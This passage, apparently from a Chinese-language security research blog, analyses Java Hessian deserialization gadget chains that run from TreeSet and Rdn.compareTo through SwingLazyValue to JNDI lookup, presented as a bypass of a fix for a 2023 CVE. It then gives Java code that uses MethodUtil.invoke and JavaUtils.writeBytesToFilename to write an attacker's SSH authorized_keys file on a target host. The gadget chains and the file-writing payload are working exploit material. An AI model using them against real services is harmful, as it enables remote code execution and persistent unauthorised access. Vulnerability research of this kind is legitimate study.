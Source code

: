 可以看到是可以攻击成功的。

```bash
TreeSet.putAll
javax.naming.ldap.Rdn$RdnEntry.compareTo
    com.sun.org.apache.xpath.internal.objects.XStringForFSB.equal
        javax.swing.MultiUIDefaults.toString
            UIDefaults.get
                UIDefaults.getFromHashTable
                    UIDefaults$LazyValue.createValue
                    SwingLazyValue.createValue
                        javax.naming.InitialContext.doLookup()
```

就是 hessian 在序列化 Treemap 时会触发 compareTo。hessian 这里就不做分析。

还有一条是

```bash
TreeSet.putAll
javax.naming.ldap.Rdn$RdnEntry.compareTo
    com.sun.org.apache.xpath.internal.objects.XString.equal
        javax.sound.sampled.AudioFileFormat.toString
            UIDefaults.get
                UIDefaults.getFromHashTable
                    UIDefaults$LazyValue.createValue
                    SwingLazyValue.createValue
                        javax.naming.InitialContext.doLookup()
```

就换了一下中间的步骤。看 2023 的那个 cve 遇警搬掉的就是 javax.sound.sampled.AudioFileFormat。

也就是说这次的 2024 就是他的绕过呗。

**5.11.1 本人技术有限，暂没找到原生触发**。然后想到的利用方式就是 tostring 去触发 json 序列化。环境有 fastjson2，jackson。

### 0x05 扩展一下攻击面

SwingLazyValue.createValue 可以调用 sun.reflect.misc.MethodUtil.invoke 方法达到任意类的任意方法调用，那这就有意思了。(试了下，hessian3.x 好像不能用这个，4.x 可以，写了就留着吧)

#### 一、不出网就写文件

写 ssh

```bash
//            二、利用 JavaUtils.writeBytesToFilename 写文件
       byte[] allBytes = Files.readAllBytes(new File("/Users/snake/.ssh/authorized_keys").toPath());
        Constructor<?> JavaUtils = JavaUtils.class.getDeclaredConstructors()[0];
        JavaUtils.setAccessible(true);
       Object javaUtils = JavaUtils.newInstance();
        Method bytesToFilename = JavaUtils.class.getMethod("writeBytesToFilename", String.class, byte[].class);
       Method invoke = MethodUtil.class.getMethod("invoke", Method.class, Object.class, Object[].class);
       Object[] ags = new Object[]{invoke, new Object(), new Object[]{ bytesToFilename,javaUtils,new Object[]{ "/Users/snake/.ssh/authorized_keys1",allBytes}}};
            SwingLazyValue swingLazyValue = new SwingLazyValue("sun.reflect.misc.MethodUtil","invoke",ags);
```
